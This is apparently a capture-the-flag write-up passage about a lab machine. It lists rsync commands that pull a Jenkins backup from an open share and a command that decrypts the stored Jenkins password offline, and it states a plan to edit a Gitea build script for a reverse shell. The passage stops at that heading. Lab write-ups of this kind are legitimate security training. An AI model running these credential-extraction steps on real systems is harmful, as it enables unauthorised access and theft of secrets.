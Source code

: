 There is a gitea on the port ```3000``` and if we click on ```Explore``` we can see this script

![alt text](../assets/image_reset-build/gitea.png)

So we probably need to find some creds to login in gitea and modify this script to gain a revshell

## Jenkins password

Let's digging in rsync

```bash
rsync -av --list-only rsync://10.10.126.198

backups        	backups
```
```bash
rsync -av rsync://10.10.126.198/backups ./backups

receiving incremental file list
created directory ./backups
./
jenkins.tar.gz
```
```bash
tar -xvf jenkins.tar.gz

# cat /backups/jenkins_configuration/jobs/build/config.xml
<password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
```
Now using [this](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) we can decrypt the password 

```bash
python3 ../decrypt.py jenkins_configuration/secrets/master.key jenkins_configuration/secrets/hudson.util.Secret jenkins_configuration/jobs/build/config.xml

REDACTED
```
## Revshell thanks to gitea
